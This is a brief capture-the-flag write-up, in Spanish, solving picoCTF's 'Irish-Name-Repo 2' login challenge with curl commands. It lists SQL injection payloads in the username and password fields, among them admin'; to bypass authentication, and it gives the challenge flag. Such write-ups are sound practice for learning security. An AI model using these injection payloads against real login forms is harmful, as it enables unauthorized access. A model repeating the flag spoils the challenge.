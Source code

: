 # Irish-Name-Repo 2
## Objetivo
There is a website running at `https://jupiter.challenges.picoctf.org/problem/64649/` ([link](https://jupiter.challenges.picoctf.org/problem/64649/)). Someone has bypassed the login before, and now it's being strengthened. Try to see if you can still login! or http://jupiter.challenges.picoctf.org:64649
## Datos de Acceso al Nivel
``` 
```
## Solucion
```Bash
abrir link
intentar logearse como admin
inspeccionar pagina login
buscar los elementos del login
mostrar el cuadro de debug
curl https://jupiter.challenges.picoctf.org/problem/33850/login.php -d "username=admin&password=admin or 1=1;&debug=1"

modificar password con la inyeccion 1=1
curl https://jupiter.challenges.picoctf.org/problem/33850/login.php -d "username=admin&password=' or 1=1;&debug=1"

modificar el usuario username=admin';
curl https://jupiter.challenges.picoctf.org/problem/64649/login.php -d "username=admin';&password=hola&debug=1"
copiar flag
picoCTF{m0R3_SQL_plz_aee925db}
```
## Notas Adicionales
|**Comandos**|**Descripcion**|
|--------|-------------|
|||
|||
## Referencias

